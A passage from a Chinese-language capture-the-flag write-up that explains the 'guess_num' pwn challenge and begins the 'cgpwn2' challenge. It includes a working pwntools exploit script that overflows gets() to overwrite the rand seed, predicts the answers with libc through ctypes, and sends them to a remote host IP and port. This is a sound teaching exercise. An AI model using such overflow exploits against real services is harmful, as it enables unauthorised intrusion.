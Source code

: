 查看安全机制  
![2020-06-05-23-04-03](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-23-04-03.png)  
可以看到这次安全机制基本上都开了

拖入IDA查看反汇编代码  
![2020-06-05-23-21-54](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-23-21-54.png)  
gets存在溢出漏洞，可以通过gets修改随即种子`seed`的值

整个程序的逻辑就是猜数字，猜中十次才可以的到flag；  
这里使用rand来生成随机数，然而rand生成的随机数并不是真正的随机数,只是在一定范围内随机，实际上是一段数字的循环，这些数字取决于随机种子。在调用rand()函数时，必须先利用srand()设好随机数种子，如果未设随机数种子，rand()在调用时会自动设随机数种子为1；  
正常情况下应该使种子随生成的随机数而变化，即每生成一次随机数更改一次种子  

使用python自带的ctypes模块进行python和c混合编程  
使用ldd查看guss_num所使用的共享库libc  
![2020-06-05-23-42-17](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-05-23-42-17.png)  
可以看到`libc.so.6`指向的文件`/lib/x86_64-linux-gnu/libc.so.6`可当做共享库载入python中,载入之后就可以通过python调用共享库中的函数，实现混合编程

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
from ctypes import *
io = remote('220.249.52.133','43798')
io.recvuntil('name:')
payload = 'A'*0x20+p32(1)   # 由于seed[0]大小为32位，所以使用p32
io.sendline(payload)

libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(1)

for i in range(10):
        num = str(libc.rand()%6+1)
        io.recvuntil('number:')
        io.sendline(num)
print io.recvall()
```
**注:** 最后的`print io.recvall()`可以用`io.interactive()`代替，不过使用后者会返回一个无效的命令行

## 0x08 cgpwn2
> 题目描述: 菜鸡认为自己需要一个字符串

查看安全机制  
![2020-06-06-08-05-57](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-08-05-57.png)  

拖入IDA查看反汇编代码  
直接跟进hello  
![2020-06-06-08-27-47](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-08-27-47.png)  
